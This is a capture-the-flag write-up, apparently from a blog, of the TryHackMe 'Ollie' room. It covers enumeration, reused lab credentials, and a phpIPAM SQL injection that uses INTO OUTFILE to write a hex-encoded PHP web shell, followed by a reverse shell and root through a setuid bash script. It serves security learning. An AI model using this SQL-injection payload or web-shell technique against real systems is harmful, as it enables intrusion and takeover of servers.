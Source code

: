 ```yaml
---
title: "Ollie"
date: 2025-03-26
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

Lets start with the simple nmap scan and rustscan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 11:10 +0545
Nmap scan report for 10.10.17.91 (10.10.17.91)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b7:1b:a8:f8:8c:8a:4a:53:55:c0:2e:89:01:f2:56:69 (RSA)
|   256 4e:27:43:b6:f4:54:f9:18:d0:38:da:cd:76:9b:85:48 (ECDSA)
|_  256 14:82:ca:bb:04:e5:01:83:9c:d6:54:e9:d1:fa:c4:82 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /immaolllieeboyyy
| http-title: Ollie :: login
|_Requested resource was http://10.10.17.91/index.php?page=login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.16 seconds
```

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1337/tcp open  waste   syn-ack
```

Lets enumerate the port 80.
Hmm we spawned on a login page.
![](Pasted%20image%2020250326111427.png)

Lets enumerate further.
![](Pasted%20image%2020250326111557.png)

We might get local file inclusion vulnerability here.
Lets check.
Hmm not working.

Doing directory busting gave us many things.
![](Pasted%20image%2020250326111903.png)
![](Pasted%20image%2020250326111915.png)


Found many thing but nothing seems interesting.
![](Pasted%20image%2020250326112416.png)

Hmm lets also see that port 1337.
![](Pasted%20image%2020250326112455.png)

Interesting.
Lets move forward.
And we got the creds.
![](Pasted%20image%2020250326112621.png)
Lets try to login on login page.
```
Username: admin
Password: OllieUnixMontgomery!
```

![](Pasted%20image%2020250326112807.png)

## Exploit

Hmmm.
After searching for possible exploits of `[phpIPAM IP address management [v1.4.5]`,we can find this.
![](Pasted%20image%2020250326113019.png)

Hmm it was using a sql injection to upload php shell.
Lets try sql injection to test if it is possible.
![](Pasted%20image%2020250326114401.png)

We can find this in a edit BGP subnet mapping thing.
And we found exact number of columns.
![](Pasted%20image%2020250326114715.png)
![](Pasted%20image%2020250326114736.png)

Hmmm lets try to use that exploit we found on exploitdb.
Or we can do this.
```SQL

" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/evil.php' -- -

```

So what happening here is we are using UNION attack and uploaded hexed php web shell by doing `INTO OUTFILE`  into `/var/www/html/yourfile.php` cause `/var/www/html/` is the root directory of web page.
![](Pasted%20image%2020250326120012.png)
![](Pasted%20image%2020250326115750.png)

And we can now use this to execute commands.
![](Pasted%20image%2020250326115844.png)

Now we can get reverse shell by [revshell.com](https://www.revshells.com/)
![](Pasted%20image%2020250326120130.png)

And we can also get full tty shell from here.
[full tty shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html)

![](Pasted%20image%2020250326120530.png)

## Privelege Escalation

We can get a some creds here.
![](Pasted%20image%2020250326121029.png)

But this was not working for user ollie.
After trying and enumerating different thing,there is the password reuse and we can use same password that we got before for user ollie.
![](Pasted%20image%2020250326121429.png)

Now lets try to became root.
I tried different exploits and tried to find different thing but nothing worked.
Linpeas is also not working.[linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
Lets also try pspy.[pspy](https://github.com/DominicBreuker/pspy)
After seeing and trying different things,we can see this.
![](Pasted%20image%2020250326124201.png)

Lets see what is it.
Its nothing.
But we can use it to execute command as root.
```
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

chmod 4777 /bin/bash
# This is weird?
ollie@hackerdog:/tmp$

```

Here we are changing the permission of `/bin/bash` ,giving it with setuid.

![](Pasted%20image%2020250326124516.png)

And Now we are root.
![](Pasted%20image%2020250326124647.png)

## Done

And done.
![](Pasted%20image%2020250326124744.png)

Learned lots of things again.
I hope you are okay,take care :).
